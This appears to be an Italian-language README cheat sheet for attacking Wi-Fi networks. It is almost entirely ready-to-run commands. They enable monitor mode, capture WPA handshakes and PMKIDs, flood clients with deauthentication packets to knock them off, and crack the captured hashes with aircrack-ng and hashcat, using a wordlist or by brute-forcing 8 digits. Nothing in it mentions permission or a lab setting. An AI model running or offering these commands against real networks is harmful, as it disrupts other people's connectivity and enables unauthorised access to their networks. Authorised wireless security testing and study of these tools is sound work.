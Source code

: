 # Wi-Fi 
Visualizza scheda di rete 
```
ifconfig
```
oppure
```
ip a
```
Uccidere i processi di interferebilità
avvia scheda di rete in monitor mode
```
sudo airmon-ng check kill
```

```
sudo airmon-ng start wlan0
```
esempio:
erpressa@kali:~# sudo airmon-ng start wlan0
avvia airodump-ng 
```
sudo airodump-ng wlan0mon 
```
copiare bssid e station
premi spazio oppure ctrl + c per terminare 
```
sudo airodump-ng --bssid FF:FF:FF:FF:FF:FF -c 1 -w /home/kali/handshake.cap wlan0mon
```
esempio
```
sudo airodump-ng --<BSSID> -c <CANALE> -w <PERCORSO-FILE> <INTERFACCIA> 
```

scollegare clients a=bssid c=clients
```
sudo aireplay-ng -0 10 -a FF:FF:FF:FF:FF:FF -c FF:FF:FF:FF:FF:FF wlan0mon
```
oppure 
```
sudo aireplay-ng --deauth 1000 -a FF:FF:FF:FF:FF:FF -c FF:FF:FF:FF:FF:FF wlan0mon
```
cracking con aircrack-ng 
```

sudo aircrack-ng file.cap -w /home/kali/rockyou.txt
```
hcxdumptool
```
sudo hcxdumptool -i wlan1 -w frames_to_recover_the_psk.pcapng -F --rds=1
```

![Screenshot_20250314_020018](https://github.com/user-attachments/assets/a105cd91-522b-4488-8dd4-29b5c7b6754a)

```
sudo hcxpcapngtool -o hash.hc22000 frames_to_recover_the_psk.pcapng
```
![Screenshot_20250314_015237](https://github.com/user-attachments/assets/eeed436d-d573-4c33-986f-15ea31dcf081)

mantieni solo la linea che ti interessa craccare
```
sudo nano hash.hc22000
```
crack con hashcat
```
hashcat -m 22000 -a 0 hash.hc22000 rockyou.txt
```
Bruteforce 8 numeri

```
hashcat -m 22000 -a 3 hash.hc22000 ?d?d?d?d?d?d?d?d
```









































